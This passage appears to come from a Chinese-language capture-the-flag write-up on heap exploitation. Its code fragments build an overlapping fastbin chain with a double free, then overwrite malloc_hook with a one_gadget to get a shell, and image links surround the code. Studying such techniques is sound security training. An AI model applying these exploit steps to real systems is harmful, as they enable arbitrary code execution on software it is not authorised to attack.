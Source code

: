 [![](assets/1708654729-79a5a6262b4145a3ed4ee36f5549f4d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104747-98d11994-d063-1.png)  
然后在 0x70 处构造一个重叠的链

```bash
add(2,0x68,'aaaaaaaa')
add(3,0x68,'aaaaaaaa')
add(4,0x68,'aaaaaaaa')
delete(2)
delete(3)
delete(2)
```

[![](assets/1708654729-88b47962e1733934e4b522de8f16756d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104802-a13c4c70-d063-1.png)  
然后改 malloc\_hook 为 og，写/bin/sh

```bash
add(5,0x68,p64(malloc_hook-0x23))
add(6,0x68,'/bin/sh\x00')
add(7,0x68,'aaaaaaaa')
add(8,0x68,'a'*0x13+p64(og))
```

